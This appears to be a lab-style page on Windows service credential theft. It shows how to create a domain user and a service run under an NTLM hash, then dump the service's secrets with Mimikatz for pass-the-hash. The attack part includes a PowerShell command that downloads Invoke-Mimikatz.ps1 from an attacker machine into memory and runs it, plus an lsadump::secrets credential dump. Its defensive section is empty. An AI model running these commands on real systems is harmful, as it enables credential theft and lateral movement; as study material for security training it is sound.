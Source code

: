 ```yaml
---
description: >-
  It's possible to create custom services, which will run with a local or a
  domain account. When you have high enough privilege's, it's possible to
  retrieve the credentials of the service.
---
```


# Services

## Configuring

### Prerequisite&#x20;

* domain account, which will run the service.&#x20;

### Configuring

In the Prerequisite stands that we need a domain account, which will run the service. For this example we have created the user _noah_ onto the Domain Controller. We executed  the following command to create the user:

```
net user Noah haoNHasAStrongPassword321!@ /domain /add
```

1. Login with an `Administrator` account into the machine, where you want to configure the service. In our example we will configure this within `WS01`.
2. Open up _cmd.exe_
3. We're going to execute the command:

```
sc create <name> binPath="C:\nonexisting.exe" obj="<username>@<domain>" password="<plaintext password or NTLM hash of the user>"
```

The password of the service can be fake. So to make our attack a bit more fun, we're going to place the NTLM hash of the user `Noah`. This will enable us to make it a 'pass-the-hash' attack.

In our example we're going to execute the following command:

```
 sc create TryToReadThePassword binPath="C:\Program Files\OfThisService.exe" obj="Noah@Amsterdam" password="02671733e400aa35ad23828f5df3b676"
```

When executed, we will get a success message.

## Attacking

### How it works



### Tools

* [MimiKatz ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

### Executing the attack

For this attack we need a high priviliged user.

1. Start PowerShell as an Administrator.
2. Execute MimiKatz. This can be done in many ways. In our example we will be hosting Invoke-mimikatz.ps1 on our attacker machine. Download mimikatz into memory using the following command and then execute MimiKatz:

```
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```

The result is that our freshly created service is shown, including with username and NTLM Hash:

![](<../../../.gitbook/assets/image (6).png>)

With the hash we can try to execute pass-the-hash attacks.

## Defending

### Recommendations

* a

### Detection



## References
